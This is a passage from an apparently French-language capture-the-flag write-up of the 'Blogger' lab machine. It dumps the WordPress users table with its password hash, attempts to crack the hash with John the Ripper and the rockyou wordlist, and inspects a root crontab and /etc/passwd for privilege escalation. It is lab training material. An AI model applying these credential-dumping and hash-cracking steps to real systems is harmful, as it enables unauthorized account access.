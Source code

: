 On peut alors se connecter au serveur MySQL local et dumper la table des utilisateurs :

```sql
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | j@m3s      | $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/ | jm3s          | admin@blogger.thm |          | 2021-01-17 12:40:06 |                     |           0 | j@m3s        |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
```

Je vois dans /home/james que l'utilisateur dispose d'un flag mais ce dernier n'est pas lisible par tous. Il faut certainement casser le hash wordpress. Je me lance donc sur cette tache :

```shellsession
$ ./john --format=phpass --wordlist=rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Mais après un moment force est de constater que ça ne mène à rien. C'est bien dommage car une entrée de la contab implique cet utilisateur :

```bash
SHELL=/bin/sh
PATH=/home/james:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/backup.sh
```

Quand on regarde la liste des utilisateurs sur le système on voit que le compte vagrant a un UID de 1000 ce qui est étonnant pour un compte normalement créé lors de l'installation d'un logiciel.

```
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
james:x:1002:1002:James M Brunner,,,:/home/james:/bin/bash
```
